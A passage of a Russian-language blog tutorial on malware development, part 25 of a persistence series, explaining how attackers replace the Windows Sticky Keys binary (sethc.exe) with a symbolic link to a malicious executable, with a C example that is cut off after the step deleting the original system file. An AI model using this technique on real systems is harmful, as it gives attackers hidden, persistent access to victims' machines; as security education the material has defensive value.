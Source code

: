 \newpage
\subsection{91. разработка вредоносного ПО: закрепление (persistence) - часть 25. Создание символической ссылки с легитимного файла на вредоносный. Простой пример на C.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/128/2024-07-14_13-00_1.png){width="80%"}    

В одном из предыдущих [постов](https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html) я писал о популярных методах закрепления через функции специальных возможностей. APT-группы, такие как APT3, APT29 и APT41, использовали этот метод для атак на ПК.    

В этом посте я просто покажу тот же трюк, но с другой логикой: создание символической ссылки с легитимного приложения на вредоносное.     

### создание символической ссылки. специальные возможности

Известный метод, используемый злоумышленниками для достижения закрепления в системе Windows, - это создание символических ссылок (symlink), которые заменяют или перенаправляют функции специальных возможностей Windows. Этот метод сложнее, чем просто замена бинарных файлов, поскольку он включает в себя создание символической ссылки с легитимного системного файла или функции на вредоносный файл. Когда система или пользователь пытаются получить доступ к оригинальному файлу или функции, они непреднамеренно перенаправляются на вредоносный файл.    

### практический пример

Логика кажется довольно простой, что-то вроде этого:    

```cpp
#include <windows.h>
#include <stdio.h>

int main() {
  // path to the legitimate binary (e.g., Sticky Keys)
  const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
  // path to the malicious binary
  const char* meowApp = "Z:\\hack.exe";

  // delete the original file (requires administrative privileges)
  if (!DeleteFileA((LPCSTR)legitApp)) {
    printf("error deleting original file: %d\n", GetLastError());
    return 1;
  }
```